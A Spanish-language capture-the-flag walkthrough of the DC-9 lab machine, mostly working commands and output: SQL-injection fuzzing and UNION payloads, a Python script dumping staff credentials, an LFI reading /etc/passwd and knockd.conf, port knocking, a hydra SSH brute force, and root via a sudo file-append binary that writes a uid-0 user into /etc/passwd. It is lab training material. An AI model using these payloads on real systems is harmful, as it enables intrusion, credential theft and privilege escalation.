




## Puertos abiertos

```
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

### Servicio web 80


#### SQLi error based

Dentro de la opción `Search` aplicamos fuzzing para probar si es vulnerable a inyección SQL.

```
❯ wfuzz -c -t 50 -X POST -u "http://192.168.0.114/results.php" -w /usr/share/wordlists/SecLists/Fuzzing/SQLi/quick-SQLi.txt -d "search=FUZZ" --hh 1056
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.0.114/results.php
Total requests: 77

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000000001:   200        54 L     250 W      3165 Ch     "'-'"                                                                 
000000005:   200        54 L     250 W      3165 Ch     "'*'"                                                                 
000000004:   200        54 L     250 W      3165 Ch     "'^'"                                                                 
000000026:   200        54 L     250 W      3165 Ch     "' or 'x'='x"                                                         
000000043:   200        54 L     250 W      3165 Ch     "admin'or 1=1 or ''='"                                                
000000023:   200        54 L     250 W      3165 Ch     "' or true--"                                                         
000000046:   200        54 L     250 W      3165 Ch     "admin' or 1=1#"                                                      
000000039:   200        54 L     250 W      3165 Ch     "admin' or '1'='1"                                                    
000000041:   200        54 L     250 W      3165 Ch     "admin' or '1'='1'#" 
```

Compruebo la vulnerabilidad sql basado en error



#### Filtrando datos críticos

##### Base de datos

```
' UNION SELECT schema_name,2,3,4,5,6 FROM information_schema.schemata-- -
information_schema
Staff
users
```


##### Tablas de Staff

```
' UNION SELECT table_name,2,3,4,5,6 FROM information_schema.tables where table_schema="Staff"-- -
StaffDetails
Users
```


##### Columnas de tablas Users

```
' UNION SELECT column_name,2,3,4,5,6 FROM information_schema.columns where table_schema="Staff" and table_name="Users"-- -
UserID
Username
Password
```


##### Registro de tablas Users

```
' UNION SELECT concat(UserID,0x3a,Username,0x3a,Password),2,3,4,5,6 FROM Staff.Users-- -
1:admin:856f5de590ef37314e7c3bdf6f8a66dc
```



Obteniendo la contraseña de `admin`



```
admin : transorbital1
```

#### LFI

Dentro del panel de administracion muestra un mnsaje de `File does not exist` por tanto deduzco que estar intentado cargar un archivo y de ser así esposible que sea vulnerable a LFI

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -c -t 50 -b "PHPSESSID=phd6hvoi6vi2c3bvshn9754bf5" -u "http://192.168.0.114/welcome.php?FUZZ=../../../../../../etc/passwd" -fs 963
[...]
file                    [Status: 200, Size: 3316, Words: 71, Lines: 86]
```

Parametro vulnerable: `file`

----

### Port Knocking

Si analizamos nuevamente los puertos encontraremos que el 22 se encuentra filtrado 

```
❯ sudo nmap --min-rate 5000 -p- -n -Pn -sS 192.168.0.114
[...]
PORT   STATE    SERVICE
22/tcp filtered ssh
80/tcp open     http
```

Como ahora tenemos acceso al sistema de archivos podemos ubicar el archivo de configuración `knockd.conf` ubicado por defecto en la carpeta `/etc`

```
http://192.168.0.114/welcome.php?file=../../../../etc/knockd.conf
```



```
[openSSH]
	sequence    = 7469,8475,9842
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9842,8475,7469
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```

Formas de golpear puertos:

```
NMAP
❯ nmap -p7469,8475,9842 -r -T5 -PN 192.168.0.114
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-11 11:23 -05
Nmap scan report for 192.168.0.114
Host is up (0.0029s latency).                                  
                                                               
PORT     STATE  SERVICE                                        
7469/tcp closed unknown                                        
8475/tcp closed unknown      
9842/tcp closed unknown

KNOCK
❯ knock 192.168.0.114 7469 8475 9842

HPING3
❯ hping3 -S 192.168.0.114 -p 7469 -c 1; hping3 -S 192.168.0.114 -p 8475 -c 1; hping3 -S 192.168.0.114 -p 9842 -c 1  

```

despues de golpear los puertos tenemos visibilidad en el puerto 22 (ssh)

```
❯ sudo nmap --min-rate 5000 -p- -n -Pn -sS 192.168.0.114
[...]
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Fuerza bruta SSH

Enumerando las otras tablas encontramos uno de usuarios y contraseñas.  
El siguiente script dumpea los registros de otros usuarios

```
#!/usr/bin/python3

import requests, re, pdb, tabulate
import urllib.parse

url = "http://192.168.0.114/results.php"
burp = {"http" : "http://127.0.0.1:8080"}

def DDBB():
	data_post = {
		"search" : "' UNION SELECT schema_name,2,3,4,5,6 FROM information_schema.schemata-- -"
		}

	s = requests.post(url, data=data_post)
	db = re.findall(r"ID: (.*?)<br",s.text)
	print(db)

def tables(database):
	data_post = {
		"search" : "' UNION SELECT table_name,2,3,4,5,6 FROM information_schema.tables where table_schema=\"{}\"-- -".format(database)
		}

	s = requests.post(url,data=data_post)
	tables = re.findall(r"ID: (.*?)<br",s.text)
	print(tables)

data_post = {
	"search" : "' UNION SELECT column_name,2,3,4,5,6 FROM information_schema.columns where table_schema=\"{}\" and table_name=\"{}\"-- -".format("Staff", "StaffDetails")
	}

s = requests.post(url,data=data_post)
columns = re.findall(r"ID: (.*?)<br",s.text)

array=[]
data_post = {'search': "' UNION SELECT concat(id,0x7c,firstname,0x7c,lastname,0x7c,position,0x7c,phone,0x7c,email,0x7c,reg_date),2,3,4,5,6 from Staff.StaffDetails-- -"}

s = requests.post(url,data=data_post)
data = re.findall(r"ID: (.*?)<br",s.text)

for i in data:
	s = i.split("|")
	array.append(s)
#print(array)

print(tabulate.tabulate(array, headers=columns))
```

```
❯ python3 autoPwn.py
  id  firstname    lastname    position                                phone  email                  reg_date
----  -----------  ----------  -----------------------------  --------------  ---------------------  -------------------
   1  Mary         Moe         CEO                            46478415155456  marym@example.com      2019-05-01 17:32:00
   2  Julie        Dooley      Human Resources                   46457131654  julied@example.com     2019-05-01 17:32:00
   3  Fred         Flintstone  Systems Administrator                46415323  fredf@example.com      2019-05-01 17:32:00
   4  Barney       Rubble      Help Desk                           324643564  barneyr@example.com    2019-05-01 17:32:00
   5  Tom          Cat         Driver                              802438797  tomc@example.com       2019-05-01 17:32:00
   6  Jerry        Mouse       Stores                            24342654756  jerrym@example.com     2019-05-01 17:32:00
   7  Wilma        Flintstone  Accounts                            243457487  wilmaf@example.com     2019-05-01 17:32:00
   8  Betty        Rubble      Junior Accounts                   90239724378  bettyr@example.com     2019-05-01 17:32:00
   9  Chandler     Bing        President - Sales                   189024789  chandlerb@example.com  2019-05-01 17:32:00
  10  Joey         Tribbiani   Janitor                             232131654  joeyt@example.com      2019-05-01 17:32:00
  11  Rachel       Green       Personal Assistant               823897243978  rachelg@example.com    2019-05-01 17:32:00
  12  Ross         Geller      Instructor                         6549638203  rossg@example.com      2019-05-01 17:32:00
  13  Monica       Geller      Marketing                          8092432798  monicag@example.com    2019-05-01 17:32:00
  14  Phoebe       Buffay      Assistant Janitor                 43289079824  phoebeb@example.com    2019-05-01 17:32:02
  15  Scooter      McScoots    Resident Cat                        454786464  scoots@example.com     2019-05-01 20:16:33
  16  Donald       Trump       Replacement Janitor            65464646479741  janitor@example.com    2019-12-23 03:11:39
  17  Scott        Morrison    Assistant Replacement Janitor     47836546413  janitor2@example.com   2019-12-24 03:41:04
```

```
  id  firstname    lastname    username    password       reg_date
----  -----------  ----------  ----------  -------------  -------------------

   1  Mary         Moe         marym       3kfs86sfd      2019-12-29 16:58:26
   2  Julie        Dooley      julied      468sfdfsd2     2019-12-29 16:58:26
   3  Fred         Flintstone  fredf       4sfd87sfd1     2019-12-29 16:58:26
   4  Barney       Rubble      barneyr     RocksOff       2019-12-29 16:58:26
   5  Tom          Cat         tomc        TC&TheBoyz     2019-12-29 16:58:26
   6  Jerry        Mouse       jerrym      B8m#48sd       2019-12-29 16:58:26
   7  Wilma        Flintstone  wilmaf      Pebbles        2019-12-29 16:58:26
   8  Betty        Rubble      bettyr      BamBam01       2019-12-29 16:58:26
   9  Chandler     Bing        chandlerb   UrAG0D!        2019-12-29 16:58:26
  10  Joey         Tribbiani   joeyt       Passw0rd       2019-12-29 16:58:26
  11  Rachel       Green       rachelg     yN72#dsd       2019-12-29 16:58:26
  12  Ross         Geller      rossg       ILoveRachel    2019-12-29 16:58:26
  13  Monica       Geller      monicag     3248dsds7s     2019-12-29 16:58:26
  14  Phoebe       Buffay      phoebeb     smellycats     2019-12-29 16:58:26
  15  Scooter      McScoots    scoots      YR3BVxxxw87    2019-12-29 16:58:26
  16  Donald       Trump       janitor     Ilovepeepee    2019-12-29 16:58:26
  17  Scott        Morrison    janitor2    Hawaii-Five-0  2019-12-29 16:58:28
```

----

> Tener en cuenta que solo se podrá realizar un ataque limitado de fuerza bruta con hydra ya que al siguiente ataque se nos bloqueará y mostrará el siguiente error:


```
❯ hydra -L users.txt -P passwords.txt 192.168.0.114 ssh -V
[...]
[DATA] max 16 tasks per 1 server, overall 16 tasks, 17 login tries (l:1/p:17), ~2 tries per task
[DATA] attacking ssh://192.168.0.114:22/
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "3kfs86sfd    " - 1 of 17 [child 0] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "468sfdfsd2   " - 2 of 17 [child 1] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "4sfd87sfd1   " - 3 of 17 [child 2] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "RocksOff     " - 4 of 17 [child 3] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "TC&TheBoyz   " - 5 of 17 [child 4] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "B8m#48sd     " - 6 of 17 [child 5] (0/0)
```

Obtenemos estas credenciales:

```
janitor : Ilovepeepee
joeyt   : Passw0rd
fred    : B4-Tru3-001
```

## Escalada de privilegios

Dentro del directorio de usuario `janitor` encuentro un archivo con posibles contraseñas de otros usuario:

```
janitor@dc-9:~/.secrets-for-putin$ ls
passwords-found-on-post-it-notes.txt
```

```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

Pero decidí buscar usuarios dentro del sistema y probar las credenciales que ya se habian descubierto.

```
fredf : B4-Tru3-001
```

El usuario `fredf` tiene privilegios que se pueden explotar para obtener una shell como `root`.

```
fredf@dc-9:/opt/devstuff$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

Enumerando me doy cuenta que está ejecutando un script que tiene el siguiente contenido.

```
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

Esto basicamente es explotar la edicion de archivos, podemos leer cualquier archivo y modificarlo a nuestro antojo.

```
fredf@dc-9:/opt/devstuff$ sudo /opt/devstuff/dist/test/test /etc/shadow /tmp/shadow
fredf@dc-9:/opt/devstuff$ test -f /tmp/shadow; echo $?
0
fredf@dc-9:/opt/devstuff$ cat /tmp/shadow  | head -n 1
root:$6$lFbb8QQt2wX7eUeE$6NC9LUG7cFwjIPZraeiOCkMqsJ4/4pndIOaio.f2f0Lsmy2G91EyxJrEZvZYjmXRfJK/jOiKK0iTGRyUrtl2R0:18259:0:99999:7:::
```

Modificando `/etc/passwd`

> Formato del archivo `/etc/passwd`: user:x:1000:1000:,,,:/home/user:/bin/bash

```
❯ openssl passwd -1 -salt hacker test123
$1$hacker$0DMAtu6laJLYlaNik7Dw31
```

```
fredf@dc-9:/tmp$ cat test 
hacker:$1$hacker$0DMAtu6laJLYlaNik7Dw31:0:0:/root/root:/bin/bash
```

```
fredf@dc-9:/tmp$ sudo /opt/devstuff/dist/test/test /tmp/test /etc/passwd
fredf@dc-9:/tmp$ su hacker
Password: 
# cat /root/root.txt
# whoami
root
# cat /root/*


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w 

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.
```
